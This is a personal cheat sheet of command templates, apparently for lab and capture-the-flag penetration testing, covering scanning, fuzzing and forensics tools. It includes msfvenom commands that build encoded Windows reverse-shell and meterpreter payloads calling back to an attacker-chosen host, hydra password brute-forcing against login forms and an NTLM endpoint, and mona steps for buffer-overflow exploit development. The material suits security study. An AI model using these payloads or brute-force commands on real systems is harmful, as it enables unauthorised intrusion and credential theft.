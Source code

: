# Command-Templates
## Just a few template commands to copy because I'm forgetful

### wget (Downloading a directory)
```
wget -r -np -nH --cut-dirs=3 -R index.html <DIRECTORY>
```

### yt-dlp (Downloading the best quality from a file)
```
yt-dlp  --merge-output-format mp4 -f "bestvideo+bestaudio[ext=m4a]/best" -a likes.txt
```

### tshark (Extracting dns records)
```
tshark -r <PACKET_FILE> -Tfields -e dns.qry.name -Y "ip.src_host==<IP_ADDRESS>" > <TXT_FILE>
```

### ffuf (Recursive directory scanning)
```
ffuf -w <WORDLIST> -u http://<IP_ADDRESS>/FUZZ -o <OUTPUT_FILE> --recursion -fc 403
```

### nmap (Basic network scanning)

- Runs nmap default scripts
- Scan service versions
- Outputs file in normal format
- Disable host discovery
- Verbose

```
nmap -sC -sV --oN <OUTPUT_FILE> -vv -Pn <IP_ADDRESS>
```

### msfvenom (Simple Windows Payload)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LISTENING_IP_ADDRESS> LPORT=<LISTENING_PORT> -f exe -e x86/shikata_ga_nai -o <OUTPUT_FILE>
```

### msfvenom (Simple Windows Payload Shell)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f py -b [bad characters]
```

### hydra (brute forcing)
```
hydra -t -V -l <USERNAME> -P <PASSWORD_LIST> <SERVICE>://<IP_ADDRESS> 
```

### hydra (http-post-form)
```
hydra -t -V -l <USERNAME> -P <PASSWORD_LIST> http-post-form <IP_ADDRESS> "<DIRECTORY> : <RAW_POST_REQUEST> <ERROR_MESSAGE>"
```

### hydra (pop up login page)
```
hydra -L usernames.txt -p Changeme123  ntlmauth.za.tryhackme.com http-get / -V
```

### Immunity Debugger (Finding bad characters)
```
!mona bytearray -b "\x00"
!mona compare -f <binary file> -a <address>
```

### Immunity Debugger (Finding a jump point)
```
!mona jmp -r esp -cpb [bad characters]
```

### Volatility 3 (Dumping Windows Files)
```
./vol.py -f <PATH_TO_MEMDUMP> windows.dumpfiles.DumpFiles --dump --pid <PID> 
```

### Examining .DS_Store
```
xxd -p <path/to/.DS_Store> | sed 's/00//g' | tr -d '\n' | sed 's/\([0-9A-F]\{2\}\)/0x\1 /g' | xxd -r -p | strings | sed 's/ptb[LN]ustr//g'
```
